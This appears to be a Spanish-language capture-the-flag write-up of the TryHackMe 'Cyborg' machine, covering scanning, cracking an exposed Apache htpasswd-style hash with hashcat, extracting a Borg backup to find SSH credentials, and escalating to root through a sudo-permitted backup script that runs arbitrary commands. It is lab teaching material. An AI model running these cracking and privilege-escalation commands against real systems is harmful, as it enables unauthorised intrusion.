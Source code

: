 ```yaml
---
title: Cyborg
date: 2024-01-14 16:00 +/-0000
categories: TryHackMe Máquina
tags:
  - Cyborg
  - tryhackme
  - easy
author: okud4
toc: true
---
```


## Reconocimiento

Hoy vamos a practicar con la maquina de Tryhackme llamada Cyborg. Al iniciar la maquina, visito su dirección IP y nos encontramos que se trata de un servidor Apache
![](/assets/img/capturas/cyborg/cyborg_apache.png)

## Escaneo y Enumeración

Realizamos un escaner a la dirección IP. Para ellos podemos usar nmap o Nessus. En mi caso, estaré utilizando Nessus para esta máquina. Tras realizar el análisis, observamos que tiene los siguientes puertos abiertos y que además, podemos navegar por ciertos directorios que deberían estar protegidos.

![](/assets/img/capturas/cyborg/cyborg_ports.png)
![](/assets/img/capturas/cyborg/cyborg_directorios.png)

Navegamos dentro de el directorio `/etc/squid/` y nos encontramos con el archivo passwd.

![](/assets/img/capturas/cyborg/cyborg_squidpass.png)

Identificamos el Hash, existen varios métodos para identficarlo, en mi caso utilizaré la web [Hashes.com](https://www.hashes.com). En Kali, existe una herramienta llamada #hash-identifier.

![](/assets/img/capturas/cyborg/cyborg_hash.png)

Guardamos el hash en un archivo y procedemos a desencriptarlo:

- Utilizaremos hashcat, para ello ejecutamos el siguiente comando:

```bash
❯ hashcat -m 1600 -a 0 <nombre de archivo> /usr/share/wordlists/rockyou.txt
```

- Una vez que obtenemos la clave, la guardamos en una nota:

```bash
❯ echo '$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:<clave>' > clavemd5.txt
```

Volvemos a Nessus y comprobamos los logs en busca de mas informacion. Conseguimos mas directorios por los que podemos navegar en la web.

![](/assets/img/capturas/cyborg/cyborg_sitemap.png)

Navegamos hasta el directorio `/admin/` y nos encontramos con lo siguiente:

![](/assets/img/capturas/cyborg/cyborg_admin.png)

Descargamos el archivo `archive.tar`. Para poder descomprimirlo, usamos el comando:

```bash
❯ tar xvf archive.tar
home/field/dev/final_archive/
home/field/dev/final_archive/hints.5
home/field/dev/final_archive/integrity.5
home/field/dev/final_archive/config
home/field/dev/final_archive/README
home/field/dev/final_archive/nonce
home/field/dev/final_archive/index.5
home/field/dev/final_archive/data/
home/field/dev/final_archive/data/0/
home/field/dev/final_archive/data/0/5
home/field/dev/final_archive/data/0/3
home/field/dev/final_archive/data/0/4
home/field/dev/final_archive/data/0/1
```

Observamos que tenemos un archivo `~/final_archive/config`. Navegamos hasta el directorio y examinamos el contenido:

```bash
❯ cd ~/TryHackme/maquinas/Cyborg/content/home/field/dev/final_archive
❯ ls
 data   config   hints.5   index.5   integrity.5   nonce   README
```

Leemos el **README**:

```bash
❯ catn README
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

Descubrimos que es una copia de seguridad realizada con **_Borg_**. Procedemos a descargarlo e instalarlo:

```bash
sudo apt install borgbackup
```

Extraemos usando la contraseña que obtuvimos anteriormente (squi...):

```bash
borg extract ~/path/hasta/el/archivo/final_archive::music_archive
```

Ahora podremos navegar por los directorios `/home/alex/` y dentro de uno de ellos encontraremos un archivo .txt con unas credenciales

```bash
❯ catn note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3
```

## Explotación

Ahora que hemos obtenido las credenciales, podremos conectarnos a través de ssh a nuestra víctima, para ellos ejecutamos:

```bash
ssh <usuario>:<ip_victima>
```

Una vez dentro listamos los directorios con `ls -la` para ver todos los directorios y sus correspondientes privilegios. Encontramos un archivo .txt y ejecutamos el comando `cat <archivo>.txt` para así poder leer su contenido. Dentro obtenemos nuestra primera flag.

```bash
<usuario>@ubuntu:~$ cat <archivo>.txt
flag{1_hop...
```

## Escalada de privilegios

Si ejecutamos el comando `sudo -l`obtenemos el siguiente resultado:

```bash
Matching Defaults entries for <usuario> on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User <usuario> may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

Pero, me doy cuenta de algo que resulta bastante curioso. Al ver el contenido de el archivo **.bash_history** observo lo siguiente:

```bash
cd /etc/mp3backups/
ls
./backup.sh
ls
echo "hi" >> backup.sh
ls
sudo ./backup.sh -c whoami
sudo ./backup.sh -c /bin/bash
```

Me dirijo en donde se encuentra el archivo **backup.sh** y veo su contenido. Este archivo ejecuta un cronjob y da la casualidad, que permite la ejecución de comandos.

Si ejecutamos el archivo con **sudo** podemos navegar por el directorio root y dentro, descubrimos el archivo **root.txt**. Ya solo nos quedaria ver su contenido y obtener el ultimo flag.

```bash

@ubuntu:/etc/mp3backups$ sudo ./backup.sh -c "ls /root"
-------------------------------------------------------

Backup finished
root.txt

-------------------------------------------------------

@ubuntu:/etc/mp3backups$ sudo ./backup.sh -c "cat /root/root.txt"

-------------------------------------------------------

Backup finished
flag{Than5s_f0r_

```
